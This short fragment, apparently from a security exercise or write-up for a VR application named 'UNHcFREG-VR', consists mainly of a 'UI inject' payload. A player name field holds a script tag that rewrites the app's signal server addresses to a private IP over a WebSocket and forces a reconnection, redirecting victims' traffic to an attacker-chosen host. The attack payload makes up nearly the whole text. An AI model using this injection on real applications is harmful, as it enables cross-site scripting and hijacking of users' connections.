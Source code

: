 # UNHcFREG-VR

## UI inject
~~~
initDebug();UNITYVERSION='0.34.0';
NAME="Mallory<script>signalServerURL=SIGNAL1=SIGNAL2=SIGNAL3='172.26.104.1:8090';_0x6af9[959]='ws://';connectToSignalServer();</script>"
~~~
